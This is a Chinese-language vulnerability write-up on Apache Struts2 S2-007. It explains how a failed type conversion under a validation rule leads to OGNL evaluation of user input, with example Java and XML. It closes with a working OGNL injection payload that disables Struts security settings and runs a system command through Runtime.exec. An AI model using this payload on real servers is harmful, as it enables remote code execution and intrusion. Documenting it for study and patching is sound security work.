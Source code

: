### S2-007

> 官方链接：[https://struts.apache.org/docs/s2-007.html](https://struts.apache.org/docs/s2-007.html)
>
> 影响版本：Struts 2.0.0 - Struts 2.2.3
> 
> 修复摘要：在转换的过程中进行字符过滤
> 
> 修复补丁：[https://fisheye6.atlassian.com/changelog/struts?cs=b4265d369dc29d57a9f2846a85b26598e83f3892](https://fisheye6.atlassian.com/changelog/struts?cs=b4265d369dc29d57a9f2846a85b26598e83f3892)

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 `UserAction`：

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

然后配置有 `UserAction-validation.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 `age` 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload：

    ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
